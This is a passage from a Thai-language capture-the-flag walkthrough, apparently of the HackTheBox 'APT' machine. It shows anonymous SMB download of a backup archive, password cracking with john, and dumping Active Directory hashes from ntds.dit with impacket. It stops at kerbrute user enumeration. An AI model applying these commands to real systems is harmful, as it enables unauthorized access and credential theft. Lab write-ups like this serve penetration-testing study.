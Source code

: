 Connect to target 
```bash
smbclient -N \\\\dead:beef::b885:d62a:d679:573f\\backup
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls 
  .                                   D        0  Thu Sep 24 03:30:52 2020
  ..                                  D        0  Thu Sep 24 03:30:52 2020
  backup.zip                          A 10650961  Thu Sep 24 03:30:32 2020

                5114623 blocks of size 4096. 2631163 blocks available
smb: \> get backup.zip
getting file \backup.zip of size 10650961 as backup.zip (1070.3 KiloBytes/sec) (average 1070.3 KiloBytes/sec)
smb: \> 
```

เมื่อลอง unzip จะพบว่าติดรหัสผ่าน เราจะต้องทำการ crack ออกมาโดยใช้ zip2john และ crack ด้วย john 

```bash
zip2john backup.zip > hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iloveyousomuch   (backup.zip)     
1g 0:00:00:00 DONE (2025-05-25 23:12) 50.00g/s 6553Kp/s 6553Kc/s 6553KC/s 123456..kovacs
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
จะเห็นว่ามีข้อมูล ntds.dit และ system ซึ่งเราสามารถใช้ secretdump ได้ 
![[Challenge/HTB Challenge/APT/IMG/001.png]]


```bash
impacket-secretdump -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL > backup_ad_dump

grep ':::' backup_AD_dump | awk -F: '{print $1}' > user.txt
```

## Kerburte user Enum
ตรวจสอบ user ที่สามารถใช้งานได้
```bash
sudo vim /etc/hosts

dead:beef::b885:d62a:d679:573f apt.htb htb.local

```

จากนั้นทดสอบ kerbrute
